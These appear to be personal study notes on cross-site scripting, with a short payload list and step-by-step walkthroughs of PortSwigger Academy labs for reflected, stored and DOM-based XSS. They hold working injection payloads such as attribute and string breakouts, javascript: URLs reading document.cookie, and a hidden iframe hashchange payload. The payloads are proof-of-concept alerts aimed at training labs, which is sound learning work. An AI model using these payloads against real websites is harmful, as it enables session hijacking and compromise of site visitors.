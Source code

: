 # Cross Site Scripting Notes


[Portswigger](https://portswigger.net/web-security/cross-site-scripting)

## Methodology

Payloads
```
Simple
<script>alert(1)</script>
Close out attribute and created new
"><svg onload=alert(1)>
Escape quotes
"onmouseover="alert(1)
Break out of Javascript string
'-alert(1)-'
```


# Labs walkthroughs

### Reflected XSS into HTML context with nothing encoded

Enter this in the search box
`<script>alert(1)</script>`

### Stored XSS into HTML context with nothing encoded

Enter this as a comment
`<script>alert(1)</script>`

### DOM XSS in document.write sink using source location.search

- Enter random input to the search box
- If we right click and inspect the page we can view that the random string we entered is placed inside the img src attribute
- enter this payload to pop xss `"><svg onload=alert(1)>`

### DOM XSS in innerHTML sink using source location.search

- Inject this into the search box `<img src=1 onerror=alert(1)>`

### DOM XSS in jQuery anchor href attribute sink using location.search source

- On the submit feedback page, change the query parameter `returnPath` to `/` followed with some random string
- right-click and inspect the element, and observe that your random string has been placed inside an `href` attribute
- Now enter this: `javascript:alert(document.cookie)`

### DOM XSS in jQuery selector sink using a hashchange event

So we notice a hashchange value in the page, we control this variable and can put our JQuery xss in this value in the url.

To exploit this we need to send an iframe with this payload in it

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
We can add `hidden="hidden"` to hide our iframe on the browser

### Reflected XSS into attribute with angle brackets HTML-encoded

- Inject a string in the search box, review what the return is and see that your string is reflected
- send this to repeater and notice your text is in a quoted `("")` attribute.
- break the quote and send in payload like this `"onmouseover="alert(1)`

### Stored XSS into anchor href attribute with double quotes HTML-encoded

- post comment with a random string in the website input
- notice it is placed in an anchor `href` attribute
- enter this payload `javascript:alert(1)`, to trigger right click in burp and select `"copy URL"` and paste it in your browser

### Reflected XSS into a JavaScript string with angle brackets HTML encoded

- inject string like above
- notice it is reflected inside a JavaScript string
- break out of string with a payload like: `'-alert(1)-'`
